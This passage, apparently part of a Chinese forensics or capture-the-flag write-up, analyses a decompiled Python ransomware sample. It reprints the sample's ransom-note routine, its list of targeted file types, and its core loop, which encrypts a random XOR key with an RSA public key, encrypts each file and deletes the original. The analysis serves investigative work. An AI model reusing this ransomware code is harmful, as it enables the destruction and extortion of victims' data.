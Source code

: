 ```powershell
def redme():
    try:
        dir = os.path.join(os.path.expanduser('~'), 'Desktop')
        print(dir)
        with open(dir + '/!READ_ME.txt', 'w') as (ff):
            ff.write(msg)
    except:
        dir1 = os.getcwd()
        print(dir1)
        with open(dir1 + '/!READ_ME.txt', 'w') as (ff):
            ff.write(msg)


print('\n加密完成~~~~~~~~~~~~~~~~~~')
os.system('pause')
# okay decompiling E:\1762326648\Deskop\新建文件夹\encrypt_file.exe_extracted\encrypt_file_1.pyc
```

通过剖析代码，发现加密文件的类型

```powershell
 if '.txt' == ExtensionPath or '.jpg' == ExtensionPath or '.xls' == ExtensionPath or '.docx' == ExtensionPath:
```

### 43. 分析加密程序，是通过什么算法对文件进行加密的？

剖析代码

```powershell
data_file = os.path.join(filepath, filename)
                    rsakey = RSA.import_key(pubkey)
                    cipher = Cipher_pkcs1_v1_5.new(rsakey)
                    xor_key = os.urandom(16)
                    xor_obj = XORCBC(xor_key)
                    outf = open(data_file + '_encrypted', 'wb')
                    encrypted_xor_key = cipher.encrypt(xor_key)
                    outf.write(encrypted_xor_key)
                    buffer_size = 4096
                    with open(data_file, 'rb') as (f):
                        while True:
                            data = f.read(buffer_size)
                            if not data:
                                break
                            outf.write(xor_obj.encrypt(data))

                    outf.close()
                    os.remove(data_file)
```

首先把`公钥`导入，生成一个`rsakey`，然后把`rsakey`通过`cipher`加密生成了一个`cipher字符串`随后通过`cipher`加密了`xor_key`，`xor_key`是一个随机的16位字符串（os.urandom(16)），因此是`outf.write(encrypted_xor_key)`加密了文件，因此加密过程实际如下：

```powershell
class XORCBC:

    def __init__(self, key: bytes):
        self.key = bytearray(key)
        self.cur = 0

    def encrypt(self, data: bytes) -> bytes:
        data = bytearray(data)
        for i in range(len(data)):
            tmp = data[i]
            data[i] ^= self.key[self.cur]
            self.key[self.cur] = tmp
```